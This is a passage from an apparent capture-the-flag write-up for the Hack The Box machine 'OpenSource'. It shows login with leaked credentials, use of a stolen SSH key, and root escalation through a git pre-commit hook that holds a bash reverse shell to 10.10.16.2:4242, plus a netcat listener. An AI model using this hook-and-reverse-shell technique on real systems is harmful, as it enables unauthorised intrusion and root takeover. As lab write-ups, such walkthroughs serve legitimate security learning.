![Desktop View](/opensource/media7.png)

We got access to gitea service, so now we can try that credentials from source code:
![Desktop View](/opensource/media8.png)
![Desktop View](/opensource/media9.png)

As you can see there is a private SSH-key ```id_rsa```, that we can use to connect as user on machine:
```
➜ Downloads git:(public) ✗ ssh -i id_rsa dev01@source.htb
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-176-generic x86_64)
Last login: Mon May 16 13:13:33 2022 from 10.10.14.23

dev01@opensource:~$ ls
user.txt
```

  

## Privilege Escalation
Let's use ```pspy``` to see what processes are running on a machine. After some time, I noticed the ```/usr/local/bin/git-sync script``` runs every few minute.

![Desktop View](/opensource/media10.png)
![Desktop View](/opensource/media11.png)

I also noticed that the ```git-commit``` command making backups every minute, which makes me think about privilege escalation via ```git-hooks``` .

Since git-commit is done from the user's directory, but as root, and dev01 can modify  ```/home/dev01/.git/hooks```, we can use it to elevate privileges.

Firstly, we need to change ```/home/dev01/.git/hooks/pre-commit.sample``` :

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.2/4242 0>&1
```

Then, remove the .sample extension and wait for the next backup:
```
➜ Downloads git:(public) ✗ nc -nlvp 4242
Connection from 10.10.11.164:51218
bash: cannot set terminal process group (2583): Inappropriate ioctl for device
bash: no job control in this shell
root@opensource:/home/dev01# ls /root/
ls /root/
config
meta
root.txt
```
**Rooted!**
